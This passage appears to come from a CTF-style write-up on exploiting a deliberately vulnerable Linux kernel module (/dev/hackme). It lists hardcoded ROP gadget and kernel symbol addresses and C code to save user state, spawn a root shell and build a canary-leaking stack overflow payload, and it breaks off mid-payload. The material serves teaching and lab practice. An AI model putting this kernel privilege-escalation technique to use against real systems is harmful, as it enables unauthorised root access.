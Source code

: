 #### Exploit one

Now that there is a canary leak, now we can get started with the actual exploit. First I will need to get the gadgets and addresses that I will use for this exploit. To get the addresses you will need to first go in `/etc/init.d/rcS` and write `setuidgid 0 /bin/sh` at the bottom so when you spawn into the instance you already have root. Next start the instance and cat out the file at `/proc/kallsyms` while grepping for whatever kernel function you need. Once you do that, just remove the line you wrote in `/etc/init.d/rcS` so you are not automatically spawned as root and you can see if your exploit works. Here are the addresses I used:

```c
unsigned long pop_rdi = 0xffffffff81006370;
unsigned long mov_rdi_rax_pop_rbp = 0xffffffff816bf203;

unsigned long swapgs_pop_rbp = 0xffffffff8100a55f;
unsigned long iretq_pop_rbp = 0xffffffff814381cb;

unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
```

Next all I needed to do is save the current state and then create a ROP chain doing what I said to do inside the Goal section.

```c
unsigned long user_cs, user_ss, user_rflags, user_sp;
unsigned long user_rip = (unsigned long) shell;

void shell() {
	int uid = getuid();
	printf("[*] uid: %d\n", uid);
	puts("[*] Spawning shell.");
	system("/bin/sh");
}

// open the vulnerable kernel module
void open_ko_file() {
	kernel_fd = open("/dev/hackme", O_RDWR);

	if (kernel_fd < 0) {
		printf("[!] Error opening kernel module\n");
		exit(-1);
	}

	printf("[*] Opened module\n");
}

void save_state() {
    __asm__(".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax");
    puts("[+] Saved state");
}

void overflow () {
	unsigned long payload[50];
	int offset = 16;

	payload[offset++] = leak_canary();
	payload[offset++] = 0x0; // rbx
	payload[offset++] = 0x0; // r12
	payload[offset++] = 0x0; // rbp
```